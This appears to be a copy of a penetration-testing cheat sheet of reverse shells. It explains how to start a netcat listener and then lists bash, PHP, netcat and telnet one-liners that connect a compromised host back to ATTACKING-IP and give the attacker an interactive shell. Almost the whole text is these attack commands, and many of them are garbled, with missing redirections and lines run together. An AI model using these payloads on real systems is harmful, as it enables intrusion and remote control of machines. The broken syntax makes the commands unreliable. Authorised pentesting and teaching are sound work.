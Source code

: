     Src: https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/

    Src: https://highon.coffee/blog/reverse-shell-cheat-sheet/

    During penetration testing if you’re lucky enough to find a remote command execution vulnerability, you’ll more often than not want to connect back to your attacking machine to leverage an interactive shell.
    Below are a collection of reverse shells that use commonly installed programming languages, or commonly installed binaries (nc, telnet, bash, etc). At the bottom of the post are a collection of uploadable reverse shells, present in Kali Linux.
    If you found this resource usefull you should also check out our penetration testing tools cheat sheet which has some additional reverse shells and other commands useful when performing penetration testing.

    Setup Listening Netcat

    Your remote shell will need a listening netcat instance in order to connect back.

    Set your Netcat listening shell on an allowed port

    Use a port that is likely allowed via outbound firewall rules on the target network, e.g. 80 / 443
    To setup a listening netcat instance, enter the following:
    root@kali:~# nc -nvlp 80
    nc: listening on :: 80 …
    nc: listening on 0.0.0.0 80 …
    NAT requires a port forward

    If you’re attacking machine is behing a NAT router, you’ll need to setup a port forward to the attacking machines IP / Port.
    ATTACKING-IP is the machine running your listening netcat session, port 80 is used in all examples below (for reasons mentioned above).

    Bash Reverse Shells

    exec /bin/bash 0&0 2>&00<&196;exec 196/dev/tcp/ATTACKING-IP/80; sh &196 2>&196exec 5/dev/tcp/ATTACKING-IP/80
    cat &5 >&5; done

    # or:

    while read line 0&5 >&5; donebash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
    PHP Reverse Shell

    A useful PHP reverse shell:
    php -r ‘$sock=fsockopen(“ATTACKING-IP”,80);exec(“/bin/sh -i &3 2>&3″);’
    (Assumes TCP uses file descriptor 3. If it doesn’t work, try 4,5, or 6)
    Netcat Reverse Shell

    Useful netcat reverse shell examples:
    nc -e /bin/sh ATTACKING-IP 80/bin/sh | nc ATTACKING-IP 80rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
    Telnet Reverse Shell

    rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/ptelnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443Remember to listen on 443 on the attacking machine also.
